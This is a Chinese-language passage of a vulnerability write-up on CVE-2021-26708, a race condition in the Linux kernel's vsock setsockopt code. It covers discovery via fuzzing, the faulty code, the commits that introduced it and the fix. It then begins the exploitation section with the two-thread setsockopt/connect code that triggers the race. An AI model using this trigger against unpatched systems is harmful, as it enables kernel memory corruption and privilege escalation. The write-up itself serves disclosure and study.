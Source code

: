 我使用自定义配置的 [syzkaller fuzzer](https://github.com/google/syzkaller/)，在今年1月11日，发现在[`virtio_transport_notify_buffer_size()`](https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/virtio_transport_common.c#L490)中出现了可疑的内核崩溃。然而，fuzzer并没有重现这个崩溃，所以我开始检查源代码并进行漏洞的重现研究。

几天后，我发现`vsock_stream_setsockopt()`中的一个令人疑惑的漏洞，看起来似乎故意如此：

```
struct sock *sk;
    struct vsock_sock *vsk;
    const struct vsock_transport *transport;

    /* ... */

    sk = sock-&gt;sk;
    vsk = vsock_sk(sk);
    transport = vsk-&gt;transport;

    lock_sock(sk);
```

在调用`lock_sock()`之前，指向虚拟套接字传输的指针被复制到一个本地变量中。但是当套接字锁没有被获取时，`vsk-&gt;transport`的值可能会被改变！这是一个明显的条件竞争错误。我检查了整个`af_vsock.c`文件，又发现了四个类似的问题。

搜索git历史记录有助于了解原因。最初，虚拟套接字的传输是无法改变的，所以将`vsk-&gt;transport`的值复制到本地变量是安全的。后来，这个漏洞被隐式的引入进 commit [`c0cfa2d8a788fcf4`](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c0cfa2d8a788fcf45df5bf4070ab2474c88d543a)(**vsock: add multi-transports support**)和commit [`6a2c0962105ae8ce`](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=6a2c0962105ae8ceba182c4f616e0e41d7755591) (**vsock: prevent transport modules unloading**)。

脆弱点的修复很简单：

```
sk = sock-&gt;sk;
    vsk = vsock_sk(sk);
-    transport = vsk-&gt;transport;

    lock_sock(sk);

+    transport = vsk-&gt;transport;
```



## 0x03 内存破坏

下面详细介绍[CVE-2021-26708](https://nvd.nist.gov/vuln/detail/CVE-2021-26708)的利用，利用了`vsock_stream_etssockopt()`中的条件竞争，复现需要两个线程，第一个线程调用`setsockopt()`：

```
setsockopt(vsock, PF_VSOCK, SO_VM_SOCKETS_BUFFER_SIZE,
                &amp;size, sizeof(unsigned long));
```

第二个线程在`vsock_stream_etssockopt()`试图获取套接字锁时改变虚拟套接字传输，通过重新连接虚拟套接字实现：

```
struct sockaddr_vm addr = `{`
        .svm_family = AF_VSOCK,
    `}`;

    addr.svm_cid = VMADDR_CID_LOCAL;
    connect(vsock, (struct sockaddr *)&amp;addr, sizeof(struct sockaddr_vm));

    addr.svm_cid = VMADDR_CID_HYPERVISOR;
    connect(vsock, (struct sockaddr *)&amp;addr, sizeof(struct sockaddr_vm));
```
